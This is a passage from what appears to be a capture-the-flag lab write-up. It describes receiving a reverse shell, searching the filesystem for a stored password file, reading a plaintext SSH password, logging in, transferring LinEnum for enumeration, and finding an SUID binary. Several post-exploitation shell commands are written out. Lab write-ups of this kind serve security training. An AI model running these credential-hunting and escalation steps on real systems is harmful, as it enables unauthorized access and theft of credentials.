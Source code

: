 ![reverse_shell_execute.png](reverse_shell_execute.png)



**Listener receives shell:**

![shell_get.png](shell_get.png)

**Find stored credentials:**
```bash
find / -name "pass" 2>/dev/null
```
Result: `/var/hidden/pass`  
![find_pass_path.png](find_pass_path.png)

---

## Privilege Escalation & Root Hash Extraction

### 1. Retrieve SSH Password

```bash
cat /var/hidden/pass
```
**Password found:** `pinguapingu`  
![find_password.png](find_password.png)

---

### 2. SSH Login & Enumeration

```bash
ssh pingu@10.201.127.143
```
![ssh_login.png](ssh_login.png)

Transfer and run LinEnum for local enumeration:

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/refs/heads/master/LinEnum.sh
scp LinEnum.sh pingu@10.201.127.143:/tmp
sh LinEnum.sh
```
![script_transfer.png](script_transfer.png)

---

### 3. SUID Binary Discovery

LinEnum reveals SUID binary: `/opt/secret/root`  
![secret_path.png](secret_path.png)

---
